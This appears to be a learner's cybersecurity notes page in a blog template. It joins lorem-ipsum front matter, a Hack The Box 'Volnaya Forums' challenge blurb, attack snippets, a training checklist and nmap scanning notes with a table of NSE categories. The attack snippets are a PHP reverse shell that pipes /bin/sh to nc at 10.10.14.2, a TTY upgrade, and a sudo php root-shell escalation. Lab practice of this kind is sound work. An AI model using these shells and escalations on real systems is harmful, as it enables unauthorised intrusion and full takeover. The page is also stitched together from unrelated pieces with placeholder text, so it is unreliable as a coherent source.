 ```yaml
---
title: Super cool article that I wrote(duplicate)
summary: Lorem ipsum dolor sit amet, consectetur adipiscing elit. Aenean in
  eleifend justo, vestibulum congue lacus. Quisque est libero, lacinia sed
  placerat ac, interdum id urna.
categories:
  - Post
tags:
  - Blog
  - post
  - lorem
  - ipsum
date: 2024-07-17T00:47:00.000Z
draft: false
---
```




Volnaya Forums

"The Volnaya Forumxss stand as a sprawling network where citizens compete to outdo each other in public displays of loyalty. Every post and reply is carefully monitored, and the most zealous praise is rewarded with higher loyalty scores. Behind the scenes, a small cadre of administrators wields absolute control, silencing dissent and shaping the narrative to serve the regime’s ambitions. Task Force Phoenix has identified the forum’s admin account as a critical target. Gaining access would allow the task force to disrupt the flow of propaganda and strike a blow against the regime’s information control. Recently, we managed to secure a backup copy of the forum server from an unsecured FTP server. Can you analyze the platform’s architecture and code to uncover any weaknesses that might grant us access to the admin account?"


### Remote code execution
**PHP code**

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

**Upgrading shell to TTY**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Privilege Escalation via PHP

You can spawn a root shell like this:

`sudo /usr/bin/php -r 'system("/bin/bash");'`


## Way Forward


- [ ]  Root a Retired Easy Box  
    
- [ ]  Root a Retired Medium Box  
    
- [ ]  Root an Active Box  
    
- [ ]  Complete an Easy Challenge  
    
- [ ]  Share a Walkthrough of a Retired Box  
    
- [ ]  Complete Offensive Academy Modules  
    
- [ ]  Root Live Medium/Hard Boxes  
    
- [ ]  Complete A Track  
    
- [ ]  Win a `Hack The Box Battlegrounds` Battle  
    
- [ ]  Complete A Pro Lab


# Host Discovery Using Nmap

```
sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
```

## Nmap Banner Grabbing

```
nmap 10.129.96.46 -p 22,80,110,139,143,445,31337 -sV -Pn -n --disable-arp-ping --packet-trace
```

# Nmap Scripting Engine

---

Nmap Scripting Engine (`NSE`) is another handy feature of `Nmap`. It provides us with the possibility to create scripts in Lua for interaction with certain services. There are a total of 14 categories into which these scripts can be divided:

| **Category** | **Description**                                                                                                                         |
| ------------ | --------------------------------------------------------------------------------------------------------------------------------------- |
| `auth`       | Determination of authentication credentials.                                                                                            |
| `broadcast`  | Scripts, which are used for host discovery by broadcasting and the discovered hosts, can be automatically added to the remaining scans. |
| `brute`      | Executes scripts that try to log in to the respective service by brute-forcing with credentials.                                        |
| `default`    | Default scripts executed by using the `-sC` option.                                                                                     |
| `discovery`  | Evaluation of accessible services.                                                                                                      |
| `dos`        | These scripts are used to check services for denial of service vulnerabilities and are used less as it harms the services.              |
| `exploit`    | This category of scripts tries to exploit known vulnerabilities for the scanned port.                                                   |
| `external`   | Scripts that use external services for further processing.                                                                              |
| `fuzzer`     | This uses scripts to identify vulnerabilities and unexpected packet handling by sending different fields, which can take much time.     |
| `intrusive`  | Intrusive scripts that could negatively affect the target system.                                                                       |
| `malware`    | Checks if some malware infects the target system.                                                                                       |
| `safe`       | Defensive scripts that do not perform intrusive and destructive access.                                                                 |
| `version`    | Extension for service detection.                                                                                                        |
| `vuln`       | Identification of specific vulnerabilities.                                                                                             |
